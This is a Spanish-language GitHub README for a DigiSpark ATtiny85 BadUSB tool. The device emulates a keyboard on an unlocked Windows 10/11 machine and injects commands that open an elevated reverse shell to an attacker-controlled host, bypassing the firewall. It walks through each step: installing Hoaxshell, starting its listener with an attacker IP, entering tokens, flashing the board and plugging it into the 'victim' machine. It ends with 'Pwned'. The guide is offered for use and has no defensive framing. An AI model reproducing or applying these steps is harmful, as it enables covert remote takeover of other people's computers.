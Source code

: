 ## 📝 Descripción
> Script para **DigiSpark ATtiny85** que genera una shell inversa con permisos elevados desde una máquina Windows víctima hacia una máquina atacante, logrando evadir el firewall. 


## ⚙️ Funcionamiento
> El ataque se activa al conectar el dispositivo al puerto USB con la sesión iniciada: el DigiSpark emula un teclado e inyecta los comandos de forma automática, sin intervención del usuario, estableciendo la conexión con la máquina atacante la cual está escuchando solicitudes.


## 💻 Compatibilidad 
> Solo funciona correctamente bajo las siguientes condiciones:
- **Sistema operativo victima**: Windows 10/11
- **Sesión activa**: Escritorio desbloqueado y sesión iniciada
- **Distribucion de teclado victima**: Español Latam (Puedes configurar otra distribución siguiendo un paso adicional.)

 
## ✅ Requerimientos
1. Tener instalado Arduino IDE [Ver Arduino IDE](https://www.arduino.cc/en/software/)
2. Instala los drivers que se encuentran en la carpeta config del repositorio (también puedes buscarlos manualmente si lo prefieres)
3. Descargar e instalar DigiStump Board 1.6.7 a traves del Boards Manager de Arduino (Configuración de Arduino)
```
   https://raw.githubusercontent.com/digistump/arduino-boards-index/refs/heads/master/package_digistump_index.json
```
<img width="1006" height="672" alt="imagen" src="https://github.com/user-attachments/assets/8a467877-c94f-439b-af3d-14c5fcf3aba8" />

4. Este script fue creado para cambiar distribuciones de teclado, y es por esto que para que funcione debes copiar la carpeta DigisparkKeyboard del repositorio y pegarla en la siguiente ruta:
```
C:\Users\tu_usuario\AppData\Local\Arduino15\packages\digistump\hardware\avr\1.6.7\libraries\
```
*Con esto podremos cambiar la linea #define kbd_es_es del script .ino para usar la distribucion de teclado que gustes.*

5. Descargar e instalar la herramienta Hoaxshell de su repositorio oficial (Seguir los pasos del repositorio):
```
git clone https://github.com/t3l3machus/hoaxshell
```


## 🚀 Uso

### 1. Ejecutar Hoaxshell.py
```python
python3 ./hoaxshell.py -s IP_ATACANTE -r -H 'Authorization'
```

### 2. Copiar el token generado en $i y dejar ejecutandose.
![image](https://github.com/user-attachments/assets/8da49bb0-b57a-4613-9a5a-1bc4f6299157)


### 3. Abrir Arduino y seleccionar Digispark 16.5 Board.
<img width="858" height="131" alt="imagen" src="https://github.com/user-attachments/assets/3de241e0-7181-44e2-aa3a-a96a26e3e4c1" />

### 4. Dentro de Arduino, abrir el archivo .ino que se encuentra en la ruta script/script.ino del repositorio y modificar las siguientes variables:


- IP_AND_PORT_ATTACKER: Reemplazar por tu IP y puerto de atacante
- TOKEN: Reemplazar por el token generado por hoaxshell
- TOKEN_PART1: Reemplazar con la primera parte del token
- TOKEN_PART2: Reemplazar con la segunda parte del token
- TOKEN_PART3: Reemplazar con la tercera parte del token
- Opcional:  #define kbd_es_es Puedes cambiar esta linea revisando las opciones en config/DigisparkKeyboard/Readme.md

![image](https://github.com/user-attachments/assets/9418035f-eaa7-4b05-ae3b-a7bd19dd68d6)



### 5. Compilar el script y conectar el ATTINY 85. Una vez hecho esto, el USB estara listo para el ataque.
<img width="865" height="966" alt="imagen" src="https://github.com/user-attachments/assets/e729488c-4b31-4471-975f-26178ed15a8d" />



### 6. Conectar el dispositivo a la máquina victima y esperar la Respuesta. Si todo sale bien recibiremos la terminal.

   
![image](https://github.com/user-attachments/assets/5c8ce65b-5abe-4dae-a521-7f1f90dc95a5)


### 7. Pwned

